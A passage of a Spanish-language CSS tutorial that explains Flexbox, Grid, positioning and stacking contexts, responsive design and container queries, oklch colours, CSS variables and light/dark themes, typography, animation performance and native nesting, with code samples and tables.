📌 Explicación: cada card es a la vez **hijo** flex (de `.cards`) y **contenedor** flex (de su contenido). `align-items: stretch` (por defecto) iguala las alturas de la fila, y `margin-top: auto` alinea todos los botones abajo aunque los textos tengan largos distintos.

### 🐛 El bug más famoso de Flexbox: `min-width: auto`

```css
/* Sidebar + contenido con un <pre> o una URL larguísima */
.layout { display: flex; }
.lateral { flex: 0 0 250px; }
.contenido { flex: 1; }         /* ❌ el <pre> largo empuja y desborda toda la página */
.contenido { flex: 1; min-width: 0; }  /* ✅ ahora sí puede encogerse */
```

🧠 Concepto: los hijos flex tienen `min-width: auto` por defecto: **no se encogen por debajo de su contenido más largo** (una palabra, una imagen, un `<pre>`). El arreglo es `min-width: 0` (o `overflow: hidden` en el hijo).

💡 Consejo: aprende jugando con **Flexbox Froggy** (flexboxfroggy.com) y **Flexbox Defense**; en 20 minutos dominas `justify-content` y `align-items`.
⚠️ Cuidado: `display: flex` solo afecta a los hijos **directos**. Los nietos siguen en flujo normal salvo que su padre también sea flex.
⚠️ Cuidado: `order` y `row-reverse` cambian solo lo visual; el teclado (Tab) y el lector de pantalla siguen el orden del HTML. Desordenar mucho rompe la accesibilidad.
🇬🇧 **main axis** /méin áksis/ = eje principal · **cross axis** = eje cruzado · **wrap** /rap/ = saltar de línea · **grow / shrink** = crecer / encoger · **basis** /béisis/ = base · **align** /aláin/ = alinear

## 🔲 Grid completo

🧠 Concepto: **CSS Grid** organiza en **dos dimensiones** a la vez: defines filas y columnas en el contenedor y colocas a los hijos en las celdas o áreas.

Si Flexbox piensa "de dentro hacia fuera" (el contenido decide), Grid piensa "de fuera hacia dentro": primero dibujas la estructura y luego los hijos encajan en ella.

```text
        línea 1    línea 2         línea 3    línea 4
           │  col 1  │    col 2      │  col 3  │
fila 1 ────┼─────────┼───────────────┼─────────┼──── línea de fila 1
           │ celda   │               │         │
fila 2 ────┼─────────┼───────────────┼─────────┼──── línea de fila 2
           │         │◄─── gap ───►  │         │
           └─────────┴───────────────┴─────────┘
  grid-column: 1 / 3  → de la línea 1 a la 3 = ocupa 2 columnas
  grid-column: 1 / -1 → de la primera a la ÚLTIMA línea = ancho completo
```

### 📦 Propiedades principales

- `display: grid;` :: Activa Grid
- `grid-template-columns: 250px 1fr 1fr;` :: Una fija y dos que reparten el resto
- `grid-template-columns: repeat(4, 1fr);` :: 4 columnas iguales
- `grid-template-columns: repeat(auto-fit, minmax(220px, 1fr));` :: Tantas columnas de ≥220px como quepan: responsive sin media queries
- `grid-template-rows: auto 1fr auto;` :: Cabecera, contenido que se estira, pie
- `gap: 1rem 2rem;` :: Espacio entre filas y entre columnas
- `grid-column: span 2;` :: El hijo ocupa 2 columnas desde donde cae
- `grid-column: 1 / -1;` :: Ancho completo
- `grid-row: 2 / 4;` :: De la línea de fila 2 a la 4
- `grid-auto-rows: minmax(150px, auto);` :: Alto de las filas creadas solas
- `grid-auto-flow: dense;` :: Rellena huecos con elementos posteriores
- `place-items: center;` :: Centra el contenido de cada celda
- `place-self: end;` :: Coloca solo a este hijo dentro de su celda
- `grid-template-columns: subgrid;` :: El hijo reutiliza las columnas del padre

🧠 Concepto: **`fr`** (fracción) reparte el espacio que **sobra** después de las pistas fijas. `1fr 2fr` = el segundo se lleva el doble del sobrante.

### 🗺️ Áreas: dibujar el layout con palabras

```css
.pagina {
  display: grid;
  grid-template-columns: 250px 1fr;
  grid-template-rows: auto 1fr auto;
  grid-template-areas:
    "cabecera cabecera"
    "lateral  contenido"
    "pie      pie";
  min-height: 100dvh;
  gap: 1rem;
}
.pagina > header { grid-area: cabecera; }
.pagina > aside  { grid-area: lateral; }
.pagina > main   { grid-area: contenido; }
.pagina > footer { grid-area: pie; }
```

```text
┌──────────────────────────────────┐
│            cabecera              │  auto
├──────────┬───────────────────────┤
│ lateral  │       contenido       │  1fr (se estira)
│  250px   │                       │
├──────────┴───────────────────────┤
│               pie                │  auto
└──────────────────────────────────┘
```

⚠️ Cuidado: en `grid-template-areas` todas las filas deben tener el **mismo número** de palabras y cada área debe ser un **rectángulo**; si no, la regla entera se ignora en silencio. Un `.` marca una celda vacía.

### 🔁 auto-fit vs auto-fill con minmax

`repeat(auto-fit, minmax(200px, 1fr))` se lee: "crea tantas columnas como quepan, cada una de **mínimo 200px** y **máximo 1fr**".

| | `auto-fill` | `auto-fit` |
|---|---|---|
| Crea columnas | Todas las que quepan | Todas las que quepan |
| Si hay pocos items | Deja columnas vacías | Colapsa las vacías |
| Efecto visual | Items no se estiran de más | Items se estiran para llenar |
| Úsalo para | Catálogos de tamaño fijo | Galerías que llenan la fila |

```text
Contenedor de 1000px, 3 items, minmax(200px, 1fr):
auto-fill → [ item ][ item ][ item ][ vacío ][ vacío ]   (5 columnas de 200px)
auto-fit  → [   item   ][   item   ][   item   ]         (3 columnas de ~333px)
```

### ✅ Ejemplo resuelto: galería con foto destacada

```css
.galeria {
  display: grid;
  grid-template-columns: repeat(auto-fit, minmax(200px, 1fr));
  grid-auto-rows: 200px;
  grid-auto-flow: dense;      /* rellena los huecos que deja la grande */
  gap: .75rem;
}
.galeria img {
  width: 100%;
  height: 100%;
  object-fit: cover;          /* recorta sin deformar */
  border-radius: .5rem;
}
.galeria .destacada { grid-column: span 2; grid-row: span 2; }
```

📌 Explicación: 1 columna en un celular de 360px, 5 en un monitor de 1100px, sin una sola media query. `object-fit: cover` evita fotos estiradas aunque tengan proporciones distintas.

### ✅ Ejemplo resuelto: subgrid para alinear cards

```css
.cards {
  display: grid;
  grid-template-columns: repeat(auto-fit, minmax(240px, 1fr));
  gap: 1.5rem;
}
.card {
  display: grid;
  grid-row: span 3;                 /* cada card ocupa 3 filas del padre */
  grid-template-rows: subgrid;      /* imagen, título y texto alineados entre cards */
}
```

📌 Explicación: sin `subgrid`, si un título ocupa 2 líneas, el texto de esa card queda más abajo que el de sus vecinas. Con `subgrid` (Baseline 2023) todas las cards comparten las mismas filas y los títulos se alinean.

### ⚔️ ¿Flexbox o Grid?

```flujo
dir: abajo
Layout -> ¿2 dimensiones? : filas Y columnas
¿2 dimensiones? -> Grid : sí
¿2 dimensiones? -> ¿Manda el contenido? : no, una sola
¿Manda el contenido? -> Flexbox : sí, tamaños variables
¿Manda el contenido? -> Grid : no, quiero columnas exactas
```

::: columnas
### ↔️ Flexbox
- Una dimensión: fila **o** columna.
- El contenido decide el tamaño.
- Menús, toolbars, botones con icono, centrar, chips, formularios en línea.
- "Pon estas cosas en fila y repárteles el espacio".
::: siguiente
### 🔲 Grid
- Dos dimensiones: filas **y** columnas.
- El contenedor decide la estructura.
- Layout de página, galerías, dashboards, formularios alineados.
- "Dibuja la cuadrícula y mete cada cosa en su sitio".
:::

| Necesito… | Usa |
|---|---|
| Centrar un elemento | Cualquiera (`place-items: center` en grid es lo más corto) |
| Barra de navegación | Flexbox |
| Galería de tarjetas iguales | Grid con `auto-fit` |
| Etiquetas/chips que saltan de línea | Flexbox con `wrap` |
| Layout cabecera/lateral/pie | Grid con áreas |
| Alinear elementos de cards vecinas | Grid + `subgrid` |

💡 Consejo: no es una guerra: lo normal es **Grid para la página y Flexbox dentro de los componentes**. Practica con **Grid Garden** (cssgridgarden.com).
🇬🇧 **grid** = cuadrícula · **track** = pista (fila o columna) · **line** = línea · **area** /éria/ = área · **span** = abarcar · **fit / fill** = ajustar / rellenar · **fraction** = fracción

## 📍 Posicionamiento, stacking context y z-index

🧠 Concepto: `position` saca o ajusta un elemento respecto al flujo normal. Se combina con `top/right/bottom/left` (o `inset`) y con `z-index` para decidir quién queda encima.

| Valor | Se mueve respecto a | ¿Deja su hueco? | Uso típico |
|---|---|---|---|
| `static` | Nada (por defecto) | Sí | Normal |
| `relative` | Su posición original | Sí | Referencia para hijos `absolute` |
| `absolute` | Ancestro posicionado más cercano | No | Badges, iconos en esquinas, overlays |
| `fixed` | La ventana (viewport) | No | Cabecera fija, botón de WhatsApp |
| `sticky` | Su contenedor de scroll al pasar el umbral | Sí | Cabeceras de tabla, índices |

```css
.tarjeta { position: relative; }          /* 1) el padre se vuelve la referencia */
.tarjeta .etiqueta {
  position: absolute;                      /* 2) se ubica respecto a .tarjeta */
  top: .75rem;
  right: .75rem;
}
.overlay { position: absolute; inset: 0; background: rgb(0 0 0 / 40%); }

.cabecera { position: sticky; top: 0; z-index: 10; background: white; }
.whatsapp { position: fixed; right: 1rem; bottom: 1rem; }
```

### 🥞 Stacking context: por qué tu z-index 9999 no funciona

🧠 Concepto: un **stacking context** (contexto de apilamiento) es un "grupo" de capas. Los `z-index` **solo compiten dentro del mismo grupo**. Un hijo con `z-index: 9999` nunca puede salir por encima de algo que está encima de **su padre**.

```arbol
html (contexto raíz)
  header — z-index 10
    menú desplegable — z-index 9999 (¡solo vale dentro de header!)
  main — z-index 20 ← gana a TODO el header, incluido el menú
    modal — z-index 1
```

📌 Explicación: el menú queda debajo de `main` aunque tenga 9999, porque la pelea real es `header (10)` vs `main (20)`. Arreglo: sube el `z-index` del `header`, quita el del `main`, o saca el menú/modal al final del `body` (o usa `<dialog>` / `popover`, que van a la **top layer**, por encima de todo).

Crean un stacking context nuevo (lista para buscar al culpable):
- `position: relative/absolute` **con** `z-index` distinto de `auto`; `fixed` y `sticky` siempre.
- `opacity` menor que 1.
- `transform`, `filter`, `backdrop-filter`, `perspective`, `clip-path`, `mask`.
- `isolation: isolate` (la forma limpia de crear uno a propósito).
- Hijos de flex/grid con `z-index`.
- `will-change` con alguna de las anteriores, `contain: paint`, `mix-blend-mode`.

### 🐛 Errores típicos de posicionamiento

| Síntoma | Causa | Arreglo |
|---|---|---|
| El `absolute` se va a la esquina de la página | El padre no está posicionado | `position: relative` en el padre |
| `z-index` no hace nada | Elemento `static` | Ponle `position: relative` (o es hijo flex/grid) |
| `z-index: 9999` sigue debajo | Está en otro stacking context | Revisa padres con `transform`, `opacity`, `z-index` |
| `sticky` no se pega | Falta `top`, o un ancestro tiene `overflow: hidden/auto` | Pon `top: 0` y quita ese overflow |
| `fixed` se mueve con un contenedor | Un ancestro tiene `transform` o `filter` | Saca el elemento de ese ancestro |
| Modal debajo del header | Contextos distintos | `<dialog>` con `showModal()` (top layer) |

💡 Consejo: define una escala de capas con variables y no inventes números: `--z-dropdown: 100; --z-header: 200; --z-modal: 1000; --z-toast: 1100;`.
🇬🇧 **stacking context** = contexto de apilamiento · **sticky** = pegajoso · **fixed** = fijo · **overlay** /óverlei/ = capa superpuesta · **top layer** = capa superior · **offset** = desplazamiento

## 📱 Responsive y container queries

🧠 Concepto: una web **responsive** (adaptable) se ve bien en cualquier pantalla. La estrategia **mobile-first** escribe primero el CSS del celular (lo más simple) y **añade** cosas con `min-width` cuando hay más espacio.

```flujo
Base celular -> min-width 640px : 1 → 2 columnas
min-width 640px -> min-width 1024px : aparece el lateral
min-width 1024px -> min-width 1280px : más aire, tipografía
```

::: columnas
### ✅ Mobile-first
```css
.grid { display: grid; gap: 1rem; }
@media (width >= 768px) {
  .grid { grid-template-columns: 1fr 1fr; }
}
```
- El celular carga menos reglas.
- Vas sumando, no deshaciendo.
::: siguiente
### ❌ Desktop-first
```css
.grid { display: grid; grid-template-columns: 1fr 1fr 1fr; }
@media (max-width: 767px) {
  .grid { grid-template-columns: 1fr; }
}
```
- Escribes y luego "deshaces".
- Más reglas pisándose entre sí.
:::

- `<meta name="viewport" content="width=device-width, initial-scale=1">` :: SIN esto el celular simula un escritorio de 980px y nada funciona
- `@media (width >= 768px) { }` :: Sintaxis de rango moderna (= `min-width: 768px`)
- `@media (768px <= width < 1024px) { }` :: Solo tablets
- `@media (hover: hover) and (pointer: fine) { }` :: Solo ratón (evita hovers "pegados" en táctil)
- `@media (orientation: landscape) { }` :: Celular en horizontal
- `@media (prefers-reduced-motion: reduce) { }` :: Usuario pidió menos animación
- `@media (prefers-color-scheme: dark) { }` :: Sistema en modo oscuro
- `@media print { }` :: Estilos para imprimir

| Breakpoint típico (Tailwind usa estos) | Dispositivo |
|---|---|
| base (sin media query) | Celular (≈360–430px) |
| `sm` 640px | Celular grande / tablet chica |
| `md` 768px | Tablet |
| `lg` 1024px | Laptop |
| `xl` 1280px | Escritorio |

### 📦 Container queries: el componente mira a SU caja

🧠 Concepto: una **media query** pregunta por la **pantalla**; una **container query** (Baseline 2023) pregunta por el **contenedor** del componente. Así una misma card se ve horizontal en el contenido principal y vertical en un sidebar estrecho, en la misma pantalla.

```css
.zona-cards { container: cards / inline-size; }   /* nombre / tipo */

.card { display: grid; gap: 1rem; }               /* base: vertical */

@container cards (width >= 450px) {
  .card { grid-template-columns: 40% 1fr; }       /* horizontal si SU caja es ancha */
  .card h3 { font-size: clamp(1rem, 4cqi, 1.5rem); } /* letra según el contenedor */
}
```

| | Media query | Container query |
|---|---|---|
| Pregunta por | La ventana | El contenedor más cercano declarado |
| Ideal para | Layout de página | Componentes reutilizables |
| Requiere | Nada | `container-type` en un ancestro |
| Unidades | `vw`, `vh` | `cqi`, `cqb` |

### 🖼️ Imágenes responsive

```css
img, video { max-width: 100%; height: auto; display: block; }
```

```html
<!-- El navegador elige el archivo según el ancho real de pantalla -->
= 768px) 50vw, 100vw"
     alt="El Illimani al amanecer visto desde La Paz"
     width="1600" height="900" loading="lazy">
```

💡 Consejo: `clamp()` para tipografía + `auto-fit/minmax` para grids + container queries para componentes = muchas veces no necesitas ninguna media query.
⚠️ Cuidado: prueba en DevTools (Ctrl+Shift+M) con **360px** de ancho. Si aparece scroll horizontal, algo se desborda: busca el culpable con `* { outline: 1px solid red; }`.
🇬🇧 **breakpoint** /bréikpoint/ = punto de quiebre · **media query** /míidia kuíri/ = consulta de medios · **container query** = consulta de contenedor · **mobile-first** = primero el celular · **layout** /léiaut/ = maquetación

## 🌈 Colores modernos: oklch y color-mix

🧠 Concepto: **OKLCH** es un espacio de color **perceptualmente uniforme**: si dos colores tienen la misma `L` (luminosidad), el ojo los ve igual de claros. Con `hsl` eso NO pasa.

| Formato | Ejemplo | Ventaja | Problema |
|---|---|---|---|
| Nombre | `tomato` | Rápido para pruebas | Pocos colores |
| Hex | `#7c3aed`, `#7c3aed80` | Universal, lo dan los diseñadores | Imposible de razonar a ojo |
| `rgb()` | `rgb(124 58 237 / 50%)` | Alfa fácil | Igual de opaco que hex |
| `hsl()` | `hsl(262 83% 58%)` | Tono, saturación, luz | La "L" miente entre tonos |
| `oklch()` | `oklch(54% 0.25 293)` | L real, colores de pantallas P3 | Croma máximo varía por tono |

### ✅ Ejemplo resuelto: por qué hsl engaña (cálculo real con culori)

Azul y amarillo con la **misma** `L: 50%` en hsl:

| Color hsl | L real en OKLCH |
|---|---|
| `hsl(240 100% 50%)` azul | **45.2%** |
| `hsl(60 100% 50%)` amarillo | **96.8%** |

En cambio, en oklch con la misma L:

| Color oklch | Resultado en hex |
|---|---|
| `oklch(65% 0.15 250)` | `#3a93e6` (azul) |
| `oklch(65% 0.15 90)` | `#b38900` (dorado) |

📌 Explicación: en hsl el "amarillo al 50%" es casi blanco para el ojo y el azul es oscuro. En oklch los dos tienen la misma luminosidad percibida: por eso las paletas generadas cambiando solo el tono (`H`) se ven **parejas**, y el contraste del texto es predecible. Tailwind v4 define su paleta en oklch por esto.

```js
// Cómo lo comprobé (node + npm i culori)
import { converter, formatHex, parse } from "culori";
const aOklch = converter("oklch");
console.log(aOklch("hsl(60 100% 50%)").l);          // 0.968 → 96.8%
console.log(formatHex(parse("oklch(65% 0.15 90)"))); // #b38900
```

### 🧪 color-mix y sintaxis relativa

```css
:root {
  --acento: oklch(54% 0.25 293);                                  /* violeta (#7c3aed) */

  /* color-mix(in ESPACIO, color1, color2 porcentaje) */
  --acento-claro:  color-mix(in oklch, var(--acento), white 40%);
  --acento-oscuro: color-mix(in oklch, var(--acento), black 25%);
  --acento-suave:  color-mix(in oklch, var(--acento) 15%, transparent); /* fondo de badge */

  /* Sintaxis de color relativo: "toma este color y cambia un canal" */
  --acento-hover: oklch(from var(--acento) calc(l - 0.08) c h);
  --complemento:  oklch(from var(--acento) l c calc(h + 180));
}
.badge { background: var(--acento-suave); color: var(--acento-oscuro); }
```

- `currentColor` :: El valor actual de `color`: ideal para iconos SVG y bordes
- `accent-color: var(--acento);` :: Pinta checkbox, radio y range nativos
- `opacity: .5` :: Vuelve transparente TODO, incluido el texto y los hijos
- `rgb(0 0 0 / 50%)` :: Transparencia solo en ese color (el fondo)
- `linear-gradient(in oklch, #7c3aed, #ec4899)` :: Degradado interpolado en oklch: sin zona gris en el medio

⚠️ Cuidado: si tu público usa navegadores viejos (algunos celulares Android baratos sin actualizar), pon un respaldo antes: `color: #7c3aed; color: oklch(54% 0.25 293);`. Herramientas como Lightning CSS lo generan solas.
💡 Consejo: oklch.com te deja elegir colores en OKLCH y ver si caben en sRGB o solo en pantallas P3.
🇬🇧 **hue** /jiú/ = tono · **chroma** /króuma/ = croma (intensidad) · **lightness** = luminosidad · **gamut** /gámut/ = gama de colores reproducible · **perceptual** = perceptual · **mix** = mezclar

## 🎛️ Variables CSS y temas claro/oscuro

🧠 Concepto: las **custom properties** (variables CSS) guardan valores con `--nombre` y se leen con `var(--nombre)`. Viven **en el navegador**: se heredan, cambian con media queries, por componente y desde JavaScript. Las variables de Sass, en cambio, desaparecen al compilar.

::: columnas
### 🎛️ Variable CSS
```css
:root { --acento: #7c3aed; }
.boton { background: var(--acento); }
.zona-peligro { --acento: #dc2626; }
/* los botones dentro se vuelven rojos */
```
- Existe en tiempo de ejecución.
- Hereda por el DOM.
::: siguiente
### 💲 Variable Sass
```css
$acento: #7c3aed;
.boton { background: $acento; }
/* compila a: background: #7c3aed */
```
- Solo existe al compilar.
- Útil para cálculos y bucles en build.
:::

- `var(--sombra, none)` :: Valor de respaldo si la variable no existe
- `.card { --pad: 1rem; padding: var(--pad); }` :: Variable local a un componente
- `.card--grande { --pad: 2rem; }` :: Cambias la variable y todo se actualiza
- `calc(var(--espacio) * 2)` :: Operar con variables
- `el.style.setProperty("--acento", "red")` :: Cambiar desde JS
- `getComputedStyle(el).getPropertyValue("--acento")` :: Leer desde JS
- `@property --angulo { syntax: "<angle>"; inherits: false; initial-value: 0deg; }` :: Variable con TIPO: se puede animar

### 🌗 Ejemplo resuelto: tema claro/oscuro con sistema + botón

```capas
Componentes : .card usa var(--superficie) — nunca colores directos
Tokens semánticos : --fondo, --texto, --superficie, --acento
Paleta : oklch(...) — los colores "crudos"
```

```css
:root {
  color-scheme: light dark;         /* scrollbars e inputs nativos también cambian */
  --fondo: #ffffff;
  --superficie: #f4f4f5;
  --texto: #18181b;
  --texto-suave: #52525b;
  --acento: #7c3aed;
  --borde: #e4e4e7;
}
/* 1) Sigue al sistema, salvo que el usuario haya forzado claro */
@media (prefers-color-scheme: dark) {
  :root:not([data-theme="light"]) {
    --fondo: #0f0f14; --superficie: #1c1c24; --texto: #f4f4f5;
    --texto-suave: #a1a1aa; --acento: #a78bfa; --borde: #2e2e38;
  }
}
/* 2) Oscuro forzado con un botón */
:root[data-theme="dark"] {
  --fondo: #0f0f14; --superficie: #1c1c24; --texto: #f4f4f5;
  --texto-suave: #a1a1aa; --acento: #a78bfa; --borde: #2e2e38;
}

body { background: var(--fondo); color: var(--texto); }
.card { background: var(--superficie); border: 1px solid var(--borde); }
a { color: var(--acento); }
```

```js
// Botón que alterna el tema y lo recuerda
const raiz = document.documentElement;
const guardado = localStorage.getItem("tema");
if (guardado) raiz.dataset.theme = guardado;

document.querySelector("#tema").addEventListener("click", () => {
  const oscuroAhora = raiz.dataset.theme === "dark" ||
    (!raiz.dataset.theme && matchMedia("(prefers-color-scheme: dark)").matches);
  raiz.dataset.theme = oscuroAhora ? "light" : "dark";
  localStorage.setItem("tema", raiz.dataset.theme);
});
```

📌 Explicación: los componentes **solo** usan tokens (`var(--fondo)`), nunca colores sueltos. Cambiar de tema = redefinir 6 variables. El bloque 1 respeta el sistema; el 2 se activa con el botón (`data-theme="dark"` en `<html>`). Para evitar el "flash" blanco al cargar, ese pequeño script debe ir en el `<head>`, antes de pintar.

### ✨ La forma corta moderna: light-dark()

```css
:root { color-scheme: light dark; }          /* obligatorio para que light-dark() funcione */
:root[data-theme="light"] { color-scheme: light; }
:root[data-theme="dark"]  { color-scheme: dark; }

body  { background: light-dark(#ffffff, #0f0f14); color: light-dark(#18181b, #f4f4f5); }
.card { border-color: light-dark(#e4e4e7, #2e2e38); }
```

🧠 Concepto: `light-dark(claro, oscuro)` (Baseline 2024) elige el valor según el `color-scheme` activo del elemento. Menos duplicación que el método de dos bloques.

💡 Consejo: en oscuro no uses `#000` de fondo ni `#fff` puro de texto: un gris muy oscuro y un blanco roto cansan menos. Y baja un poco la saturación de los acentos.
⚠️ Cuidado: los nombres de variables distinguen mayúsculas (`--Acento` ≠ `--acento`) y **no** funcionan dentro de la condición de una media query: `@media (width >= var(--md))` no sirve.
🇬🇧 **custom property** = propiedad personalizada · **design token** = token de diseño · **theme** /zíim/ = tema · **dark mode** = modo oscuro · **toggle** /tógol/ = alternar · **fallback** /fólbak/ = respaldo

## 🔠 Tipografía

🧠 Concepto: la **tipografía** es la mayor parte de cualquier web. Se nota en tres cosas: **fuente legible**, **tamaño suficiente** (≥16px en párrafos) y **alto de línea** cómodo (1.5–1.7 en texto largo).

- `font-family: "Inter", system-ui, sans-serif;` :: Fuente + respaldos si no carga
- `font-size: 1.125rem;` :: 18px
- `font-weight: 600;` :: 400 normal, 600 seminegrita, 700 negrita
- `line-height: 1.6;` :: SIN unidad: se multiplica por la letra de cada hijo
- `letter-spacing: .05em;` :: Espacio entre letras (útil en MAYÚSCULAS)
- `text-wrap: balance;` :: Títulos con líneas de largo parejo
- `text-wrap: pretty;` :: Evita una palabra sola en la última línea (huérfana)
- `font-variant-numeric: tabular-nums;` :: Números del mismo ancho (tablas, precios, relojes)
- `text-underline-offset: 4px;` :: Separa el subrayado del texto
- `hyphens: auto;` :: Corta palabras con guion (requiere `lang="es"` en el HTML)
- `overflow-wrap: anywhere;` :: Rompe URLs larguísimas que desbordan
- `font: 600 1.1rem/1.5 "Inter", sans-serif;` :: Atajo: peso, tamaño/alto de línea, familia

### 🔤 Cargar fuentes sin romper la página

```css
/* Fuente propia (autoalojada): más rápido y privado que pedirla a terceros */
@font-face {
  font-family: "Inter";
  src: url("/fonts/InterVariable.woff2") format("woff2");
  font-weight: 100 900;          /* fuente VARIABLE: un archivo, todos los pesos */
  font-display: swap;            /* muestra la fuente del sistema mientras carga */
}

body {
  font-family: "Inter", system-ui, -apple-system, "Segoe UI", Roboto, sans-serif;
  font-size: 1rem;
  line-height: 1.6;
}
h1, h2, h3 { line-height: 1.15; text-wrap: balance; }
code, pre { font-family: "JetBrains Mono", ui-monospace, monospace; }
p { max-width: 65ch; }
```

| `font-display` | Mientras carga… | Úsalo para |
|---|---|---|
| `swap` | Texto con fuente del sistema, luego cambia | Casi siempre |
| `optional` | Si no llega rápido, se queda la del sistema | Máximo rendimiento |
| `block` | Texto invisible un rato (FOIT) | Fuentes de iconos |
| `fallback` | Invisible muy poco, luego sistema | Término medio |

### 📐 Escala tipográfica fluida

```css
:root {
  --texto-sm: clamp(.875rem, .85rem + .1vw, .95rem);
  --texto-base: 1rem;
  --texto-lg: clamp(1.125rem, 1rem + .5vw, 1.35rem);
  --texto-xl: clamp(1.5rem, 1.1rem + 1.5vw, 2.25rem);
  --texto-2xl: clamp(2rem, 1.2rem + 3vw, 3.5rem);
}
h1 { font-size: var(--texto-2xl); }
h2 { font-size: var(--texto-xl); }
```

💡 Consejo: máximo **2 familias** (una para títulos y una para texto, o una sola variable). `system-ui` es gratis, instantánea y se ve nativa en cada sistema.
⚠️ Cuidado: el cambio de fuente al cargar hace "saltar" el texto (CLS, Cumulative Layout Shift). Mitígalo con fuentes de métricas parecidas, `size-adjust` en `@font-face` o precargando el `.woff2` con `<link rel="preload" as="font" crossorigin>`.
🇬🇧 **typeface** /táipfeis/ = familia tipográfica · **font weight** = grosor · **line height** = interlineado · **variable font** = fuente variable · **orphan** = huérfana · **kerning** = ajuste entre letras

## 🎞️ Transiciones, animaciones y rendimiento

🧠 Concepto: una **transición** anima el cambio entre dos estados (normal → `:hover`). Una **animación** con `@keyframes` define una secuencia completa que corre sola, se repite y puede tener muchos pasos.

### ⚙️ El pipeline del navegador (por qué unas animaciones van fluidas y otras no)

```flujo
JS/CSS cambia algo -> Style : qué reglas aplican
Style -> Layout : tamaños y posiciones
Layout -> Paint : píxeles de cada capa
Paint -> Composite : juntar capas (GPU)
```

| Si animas… | Etapas que se rehacen | Resultado |
|---|---|---|
| `width`, `height`, `top`, `margin`, `font-size` | Layout → Paint → Composite | Caro: puede tirones |
| `color`, `background-color`, `box-shadow` | Paint → Composite | Medio |
| `transform`, `opacity` (y `filter` a menudo) | Solo Composite | Barato: lo hace la GPU |

```grafica
tipo: barras
titulo: Etapas del pipeline que se rehacen en cada fotograma (según la tabla)
width / top : 3
background-color : 2
transform / opacity : 1
```

📌 Resumen: a 60 fps tienes **≈16.7 ms** por fotograma (1000 / 60). Si cada fotograma recalcula el layout de toda la página, no llegas. Por eso: mueve con `transform: translate`, escala con `scale`, aparece con `opacity`.

::: columnas
### ❌ Animar layout
```css
.panel { left: -300px; transition: left .3s; }
.panel.abierto { left: 0; }
```
Recalcula posición de todo en cada fotograma.
::: siguiente
### ✅ Animar transform
```css
.panel { translate: -100% 0; transition: translate .3s; }
.panel.abierto { translate: 0 0; }
```
Solo mueve una capa ya pintada.
:::

### ⏱️ Transiciones

- `transition: background-color 200ms ease;` :: Propiedad, duración, curva
- `transition: translate 300ms ease, opacity 300ms;` :: Varias propiedades
- `transition: all .2s;` :: Todo: cómodo pero anima cosas que no querías (y caras)
- `transition-delay: 100ms;` :: Esperar antes de empezar
- `ease`, `ease-out`, `ease-in-out`, `linear` :: Curvas: `ease-out` se siente más "rápida" al entrar
- `cubic-bezier(.34, 1.56, .64, 1)` :: Curva propia (esta rebota un poco)
- `transition-behavior: allow-discrete;` :: Permite animar `display` y `overlay` (Baseline 2024)
- `@starting-style { }` :: Estilo "de partida" para animar la APARICIÓN de un elemento

### 🎬 Animaciones con @keyframes

```css
@keyframes aparecer {
  from { opacity: 0; translate: 0 20px; }
  to   { opacity: 1; translate: 0 0; }
}
@keyframes girar { to { rotate: 360deg; } }
@keyframes latir {
  0%, 100% { scale: 1; }
  50%      { scale: 1.08; }
}

.seccion { animation: aparecer 600ms ease-out both; }
.spinner {
  width: 2rem; aspect-ratio: 1;
  border: 3px solid #ddd; border-top-color: #7c3aed; border-radius: 50%;
  animation: girar .8s linear infinite;
}
.corazon { animation: latir 1.2s ease-in-out infinite; }
```

| Propiedad | Ejemplo | Qué hace |
|---|---|---|
| `animation-duration` | `600ms` | Cuánto dura una vuelta |
| `animation-iteration-count` | `3`, `infinite` | Repeticiones |
| `animation-direction` | `alternate` | Ida y vuelta |
| `animation-fill-mode` | `both`, `forwards` | Se queda con el primer/último fotograma |
| `animation-delay` | `.2s`, `-1s` | Retraso (negativo = empieza adelantada) |
| `animation-play-state` | `paused` | Pausar (por ejemplo en `:hover`) |

### ✅ Ejemplo resuelto: popover que aparece y desaparece animado (sin JS)

```css
.menu-popover {
  opacity: 1;
  scale: 1;
  transition: opacity .2s, scale .2s, display .2s allow-discrete, overlay .2s allow-discrete;
}
.menu-popover:not(:popover-open) { opacity: 0; scale: .95; }  /* estado cerrado */

@starting-style {
  .menu-popover:popover-open { opacity: 0; scale: .95; }        /* desde dónde entra */
}
```

📌 Explicación: antes era imposible animar algo que pasa de `display: none` a visible (aparecía de golpe). `@starting-style` le da un "fotograma 0" y `allow-discrete` deja que `display` cambie al **final** de la salida, así se ve el fade-out.

### 💡 Rendimiento y accesibilidad del movimiento

```css
/* Respeta a quien pidió menos movimiento (mareos, vértigo, epilepsia) */
@media (prefers-reduced-motion: reduce) {
  *, *::before, *::after {
    animation-duration: .01ms !important;
    animation-iteration-count: 1 !important;
    transition-duration: .01ms !important;
    scroll-behavior: auto !important;
  }
}
```

- `will-change: transform;` :: Pide una capa propia ANTES de animar (úsalo poco y quítalo después)
- `contain: layout paint;` :: Aísla un componente: sus cambios no recalculan el resto
- `content-visibility: auto;` :: No dibuja secciones fuera de pantalla (páginas larguísimas)

⚠️ Cuidado: `transition` va en el **estado normal**, no en el `:hover`. Si la pones en `:hover`, anima al entrar pero salta de golpe al salir.
⚠️ Cuidado: `will-change` en cientos de elementos consume memoria de GPU y puede ir PEOR. No lo pongas "por si acaso".
🇬🇧 **keyframe** /kíifreim/ = fotograma clave · **easing** /ísing/ = curva de aceleración · **frame rate** = fotogramas por segundo · **jank** /yank/ = tirones · **reflow** = recálculo de layout · **repaint** = repintado

## 🪺 Nesting nativo

🧠 Concepto: el **nesting** (anidado) permite escribir reglas dentro de otras, como en Sass, pero **en CSS puro**, sin compilar. Está en todos los navegadores principales desde 2023.

```css
.card {
  padding: 1rem;
  border-radius: 1rem;

  & h3 { margin-block-end: .5rem; }      /* = .card h3 */
  h3 { margin-block-end: .5rem; }        /* también vale sin & (sintaxis relajada) */
  &:hover { translate: 0 -4px; }         /* = .card:hover */
  &.destacada { border: 2px solid gold; }/* = .card.destacada */
  .tema-oscuro & { background: #1c1c24; }/* = .tema-oscuro .card */

  @media (width >= 768px) {              /* media query anidada */
    padding: 2rem;
  }
}
```

### ⚠️ Donde Sass y CSS nativo NO se parecen

En Sass `&` es **texto** que se pega; en CSS nativo `&` es un **selector** (como `:is(.card)`). Por eso el truco favorito de BEM no funciona:

::: columnas
### ✅ En Sass
```css
.card {
  &__titulo { color: blue; }
  &--destacada { color: red; }
}
/* compila a .card__titulo y .card--destacada */
```
::: siguiente
### ❌ En CSS nativo
```css
.card {
  &__titulo { color: blue; }
}
/* NO crea .card__titulo:
